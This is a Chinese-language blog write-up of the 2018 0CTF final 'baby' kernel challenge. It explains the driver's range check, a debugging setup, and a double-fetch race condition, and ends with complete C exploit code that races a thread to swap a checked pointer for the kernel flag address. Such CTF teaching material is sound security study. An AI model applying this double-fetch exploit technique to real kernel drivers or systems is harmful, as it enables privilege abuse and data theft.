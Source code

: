 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "2018-0CTF-final baby 复现(race condition & double fetch)"
author: wsxk
date: 2022-11-2
comments: true
---
```


- [题目分析<br>](#题目分析)
- [攻击思路 double fetch<br>](#攻击思路-double-fetch)
- [exp<br>](#exp)
- [references<br>](#references)

## 题目分析<br>
首先查看一下启动脚本<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102141735.png)
我们可以惊奇地发现，什么保护都没开（好耶！)<br>
再看看那个驱动的保护：
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102141856.png)
发现也什么都没开。<br>
接下来分析一下代码：
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102142025.png)<br>
ioctl函数提供了2个接口:<br>
一个是0x6666，它将会打印出flag的地址（内核）<br>
另一个是0x1337，这个功能首先`check`用户的输入（input_addr)是否合法。<br>
其中需要重点理解的有`_chk_range_not_ok`函数:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102143130.png)
这个函数首先将`第一个参数和第二个参数相加，判断是否发送进位（CF）`，再判断`第一个参数和第二个参数相加是否大于第三个参数`<br>
**2个条件必须同时满足才能通过检测**<br>
这里的第三个参数`*(_QWORD *)(__readgsqword((unsigned int)&current_task) + 4952)`看起来很复杂，仔细看，首先是`__readgsqword((unsigned int)&current_task)`,从函数名称可以看出这是读取以gs寄存器为基址索引的8个字节，偏移为`(unsigned int)&current_task`，其实就是读取了current_task在内核中的地址，然后以8字节为单位找到偏移为`4952`的值<br>
这里值得一提的是，我们还是不知道这个值是多少，需要调试去看一下。<br>
***注意，要想调试需要root权限，需要在init脚本里把 1000 改成 0，然后在启动脚本（start.sh)里添加-s选项***<br>
这里一般情况是没办法调试的
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150043.png)
因为不知为何，地址变成了奇奇怪怪的东西（，这就说明 使用 add-symbol-file添加符号不可行。<br>
因此需要用root权限来 `lsmod` 
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150144.png)
可以看到真正的驱动基地址。<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150212.png)
顺道一提，我惊奇的发现，基地址刚刚好就是check函数的地址，哈哈，也不用算偏移了。<br>
调试后发现，该值是 `0x7ffffffff000`
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/20221102150258.png)
刚刚好是栈底(<br>
从这个题目中，没有栈/堆的问题，似乎只是要我们猜flag<br>

## 攻击思路 double fetch<br>
我们可以利用 竞态条件（race condition）来绕过检测。<br>
`double fetch` 就是其中的一种。<br>
`double fetch`发送在以下条件：<br>
> 1. 用户往内核传送数据是以指针方式传送（意味着用户可以修改其所指向的内容）
> 2. 内核需要多次使用该指针来取值。

**double fetch直译就是取值2次**<br>
这次题目就满足了上述2个条件。<br>
double fetch正常情况图:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/QQ%E5%9B%BE%E7%89%8720221102152018.jpg)<br>
attack后:
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-6-27-DNS/IMG_20221102_152239.jpg)<br>
说白了，`就是在一开始输入时，输入的参数是符合规范的`，在越过检测后，`修改参数为恶意地址`<br>
说的容易，其实我们没办法准确定位到第一次fetch和第二次fetch的时间，因此通常都采用爆破的手段。<br>

## exp<br>
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>

struct request{
    size_t addr;
    size_t length;
};
pthread_t compete;
struct request input;
size_t flag_addr;
size_t competition_times = 0x100;
char flag[0x100];
int result_fd;
int success=0;

void * race_thread(void){
    while(!success){
        for(int i=0;i<competition_times;i++){
            input.addr=flag_addr;
        }
    }
}

int main(){
    int fd = open("/dev/baby",O_RDWR);
    if(fd<0){
        printf("error in open /dev/baby!\n");
    }
    
    //get flag addr
    ioctl(fd,0x6666,&input);
    system("dmesg | grep flag > 1.txt");
    int file_fd = open("/1.txt",O_RDONLY);
    char buf[0x100];
    read(file_fd,buf,0x100);
    char * flag_start = strstr(buf,"Your flag is at ")+strlen("Your flag is at ");
    char * flag_end = flag_start + 16;
    flag_addr = strtoull(flag_start,flag_end,16);
    printf("flag_addr:%p\n",flag_addr);
    
    //init input
    input.addr = buf;
    input.length = 33;

    //create thread
    pthread_create(&compete,NULL,race_thread,NULL);

    //start race condition!
    while(!success){
        for(int i=0;i<competition_times;i++){
            input.addr=buf;
            input.length=33;
            ioctl(fd,0x1337,&input);
            system("dmesg | grep flag > result.txt");
            result_fd = open("/result.txt",O_RDONLY);
            read(result_fd,flag,0x100);
            if(strstr(flag,"Looks like the flag is not a secret anymore.")){
                printf("get flag!\n");
                success=1;
                break;
            }
        }
    }

    // close thread
    pthread_cancel(compete);
    
}
```

## references<br>
[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#Off-by-One](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#Off-by-One)<br>